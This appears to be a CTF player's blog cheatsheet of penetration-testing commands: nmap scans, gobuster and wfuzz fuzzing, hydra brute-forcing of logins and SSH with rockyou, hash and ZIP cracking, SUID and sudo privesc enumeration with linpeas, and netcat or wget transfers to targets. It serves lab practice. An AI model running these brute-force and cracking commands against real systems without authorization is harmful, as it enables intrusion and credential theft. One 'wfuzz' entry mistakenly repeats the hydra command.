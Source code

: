 ```yaml
---
layout: post
title: The Essentials - My Favorite Tools and Commands
summary: This cheatsheet contains essential commands I always use in CTFs, THM boxes, and in cybersecurity.  Includes commands and tools for discovery to transferring files, passing by web tools, and cracking. I encourage the other content creators to replicate this kind of cheatsheet on their platform (a mention will always be appreciated 😊).
date: 2020-07-30
categories: cheatsheets
author: Noxtal
thumbnail: gravatar
tags:
- essentials
- commands
- discovery
- web
- cracking
- privesc
- transferring
- nmap
- gobuster
- wfuzz
- wpscan
- hydra
- hashcat
- stegcracker
- fcrackzip
---
```


This cheatsheet contains essential commands I always use in CTFs, THM boxes, and in cybersecurity.  Includes commands and tools for discovery to transferring files, passing by web tools, and cracking. I encourage the other content creators to replicate this kind of cheatsheet on their platform (a mention will always be appreciated 😊).

-----

- [Discovery](#discovery)
  - [Nmap](#nmap)
  - [Web Directory and Query Parameters Bruteforce](#web-directory-and-query-parameters-bruteforce)
- [Web](#web)
  - [HTTP Form Bruteforce](#http-form-bruteforce)
  - [Wordpress](#wordpress)
  - [Subdomain Bruteforce](#subdomain-bruteforce)
- [Cracking](#cracking)
  - [ZIP](#zip)
  - [Hashes](#hashes)
  - [Bruteforce SSH](#bruteforce-ssh)
  - [Steganography](#steganography)
- [Privescs Discovery](#privescs-discovery)
- [Transferring Files](#transferring-files)

# Discovery
## Nmap
Basic nmap scan:
```bash
nmap -vv -sC -sV -oN nmap.log $IP
```

Complete nmap scan:
```bash
nmap -vv -A -p- -oN nmap-complete.log $IP
```

See my [nmap cheatsheet](https://noxtal.com/cheatsheets/2020/07/13/nmap-cheatsheet/#personnal-favorites) for other personal favorites.

## Web Directory and Query Parameters Bruteforce
Using gobuster:
```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.log -t 200 -u $URL
```

Using wfuzz:
```bash
wfuzz -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 --hc 404 http://www.host.name/FUZZ
```

Using wfuzz to bruteforce query parameters:
```bash
wfuzz -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 --hc 404 http://www.host.name/?parameter=FUZZ
```

Recursive directory scan with wfuzz:
```bash
wfuzz -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 200 --hc 404 -R $DEPTH http://www.host.name/FUZZ
```

# Web
## HTTP Form Bruteforce
Using Hydra:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"
```

Using wfuzz:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"
```

## Wordpress
WPScan + password bruteforce:
```bash
wpscan --url $URL --passwords /usr/share/wordlists/rockyou.txt --usernames usernames.txt
```

## Subdomain Bruteforce
Using wfuzz:
```bash
wfuzz -c -f wfuzz-sub.log -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u $URL -H "Host: FUZZ.host.name" -t 32 --hc 200 --hw 356
```

*Note: you will need to adjust the `--hc` and `--hw` parameters to your needs. Check `wfuzz -h` for more information about those.*

Using gobuster:
```bash
gobuster vhost -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $URL -t 32
```

# Cracking
## ZIP
```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

## Hashes
Using hashcat:
```bash
hashcat -m $MODE hashes /usr/share/wordlists/rockyou.txt
```

## Bruteforce SSH
Using hydra:
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -t 4 ssh
```

## Steganography
Crack steghide passphrase using stegracker:
Install:
```bash
pip3 install stegcracker
```

Run:
```bash
python3 -m stegcracker tocrack.jpg
```

# Privescs Discovery
Find privescs exploiting SUID binaries:
```bash 
find / -perm -u=s -type f 2>/dev/null
```

Find privescs by listing sudo permissions:
```bash 
sudo -l
```

Enumerate interesting files, processes, and privescs using Linpeas:
1. Install [linpeas] on your machine.
2. Transfer it to the target machine. (see the [Transferring Files](#Transferring-files))
3. Make it executable, run it, and `tee` the output into a log file for further analysis.
  
```bash 
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.log
```

# Transferring Files
Open an HTTP server:
1. `cd` into the directory you want to access one or more files from.
2. Open an HTTP server:

```bash 
# PYTHON3
python3 -m http.server -b $IP $PORT

# PHP
php -S $IP:$PORT
```

{:start="3"}
3. Access the file:

```bash 
# Wget
wget http://$IP:$PORT/file

# Curl
curl http://$IP:$PORT/file -o target_file

# Netcat
nc $IP $PORT > target_file
```

Using SCP:
```bash 
# Send
scp /path/to/file user@$HOST:/path/

# Send with custom name
scp /path/to/file user@$HOST:/path/different_name

# Get
scp user@$HOST:/path/to/file /local/directory
```

*Note: To connect with an SSH key, you may need to use the `-i` flag followed by the path to the key.*

Using netcat:
```bash 
# Server
nc -lp $PORT < file

# Client
nc $IP $PORT > file
```